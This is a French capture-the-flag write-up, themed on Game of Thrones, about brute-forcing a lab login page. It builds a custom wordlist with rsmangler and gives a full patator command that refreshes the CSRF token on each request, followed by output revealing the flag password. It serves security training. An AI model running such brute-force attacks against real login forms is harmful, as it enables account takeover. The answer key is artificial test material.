 ```yaml
---
title: Write-up 5
next: "/write-ups/wu6"
prev: "/write-ups/wu4"
---
```



# 🏰 Brute Force sur la page de login  - Castral-Roc

## 🎯 Objectif
Jon doit crocheter la serrure pour rentrer au conseil des lannister ! Il doit **brute-forcer la page de login** sur le sous-domaine **lannister.castral-roc.lannisport.south** pour découvrir **le mot de passe** de James Lannister.

**Flag attendu :** <ILoveCersei>

---

## ⚙️ Environnement
- **Cible :** lannister.castral-roc.lannisport.south
- **Outil utilisé :** rsmangler, patator
- **Wordlist :** custom wordlist créée par le pentester

---


## 🚀 Étape 1 : se rendre sur la page high_login et analyser le comportement du formulaire de connexion


Page de login du Conseil des Lannister :  http://lannister.castral-roc.lannisport.south/high_login.php 

## 🔍 Étape 2 :  Inspecter la page 

Inspecter la page pour trouver les champs du formulaire de connexion.
On voit que le formulaire utilise un token CSRF pour se protéger des attaques CSRF.

> [!NOTE]
> CSRF : Cross-Site Request Forgery, une attaque qui consiste à forcer un utilisateur à exécuter des actions non désirées sur un site auquel il est authentifié.

Il faut donc trouver un moyen de contourner cette protection.

De plus on remarque que le formulaire de connexion contient un champ **username** et un champ **password**, la methode utilisée est **POST**.

```html
<form method="POST">
        <input type="hidden" name="csrf_token" value="zdagte....">
        <label for="username">Nom d'utilisateur :</label><br>
        <input type="text" id="username" name="username" required><br>
        <label for="password">Mot de passe :</label><br>
        <input type="password" id="password" name="password" required><br>
        <input type="submit" value="Connexion">
</form>
```

## 🚀 Étape 3 : Créer une wordlist personnalisée

1. On remarque sur la page plusieurs **indices** :

```bash	
- James
- Lannister
- Cersei
- Love
- I
```

On peut donc créer une **wordlist personnalisée**  avec ces mots.

Les ajouter a un fichier.

```bash	
nano custom_wordlist.txt
```

Coller les mots dans le fichier, sauvegarder et quiter.

```bash	
James
Lannister
Cersei
Love
I
```


2. Créer un fichier sortie_wordlist.txt avec un multitude de variations possible de ces mots : 

```bash	
rsmangler --file custom_wordlist.txt --output sortie_wordlist.txt
```

Il va donc par exemple y avoir des variations de la forme :

```bash
JamesLaNNisterCerseiLoveI
IJamesLannisterCerseiLove
CerseiLoveIJamesLannister
...
```



## 🔍 Étape 4 : Brute-force du formulaire de connexion

Comme le formulaire utilise un token CSRF, on va utiliser l'outil **patator** pour effectuer un bruteforce sur le formulaire de connexion.
En effet, patator permet de contourner la **protection CSRF** en recuperant le token avec chaque requête.
De ce fait, lorsque l'on envoie une requête, le token est récupéré et utilisé pour la requête suivante.

```bash
patator http_fuzz url="http://lannister.castral-roc.lannisport.south/high_login.php" method=POST body="username=james.lannis&password=FILE0&csrf_token=RESPONSE1" accept_cookie=1 0=sortie_wordlist.txt before_urls="http://lannister.castral-roc.lannisport.south/high_login.php" before_egrep='RESPONSE1:csrf_token" value="([a-f0-9]{32})"' resolve="lannister.castral-roc.lannisport.south:10.10.10.1"
```

Décomposons la commande :

- **http_fuzz** : module de patator pour effectuer des attaques par bruteforce sur des formulaires web
- **url** : l'url de la page de login
- **method** : la méthode HTTP utilisée pour envoyer les requêtes
- **body** : les paramètres du formulaire de connexion
- **accept_cookie** : accepter les cookies
- **0** : le fichier contenant les mots de passe à tester
- **before_urls** : l'url de la page de login
- **before_egrep** : expression régulière pour récupérer le token CSRF, le token peut avoir des valeurs de a à f et de 0 à 9 car il s'agit de valeurs hexadécimale
- **resolve** : résoudre le nom de domaine en adresse IP

Cette commande va tester tous les mots de passe de la wordlist sur le formulaire de connexion.

On aura donc cette sortie : 

```bash
18:23:37 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.11.5 at 2025-02-11 18:23 CET
18:23:37 patator    INFO -                                                                              
18:23:37 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:23:37 patator    INFO - -----------------------------------------------------------------------------

18:23:38 patator    INFO - 200  1050:-1        0.032 | LoveICersei                        |    74 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 200  1054:-1        0.065 | IJamesLannister                    |    75 | HTTP/1.1 200 OK
18:23:38 patator    INFO - 302  429:-1         0.055 | ILoveCersei                        |    86 | HTTP/1.1 302 Found
```

On voit que le mot de passe **ILoveCersei** a été trouvé, car on a reçu une réponse **HTTP 302 Found**.

## 🎯 Étape 5 : Validation du Flag


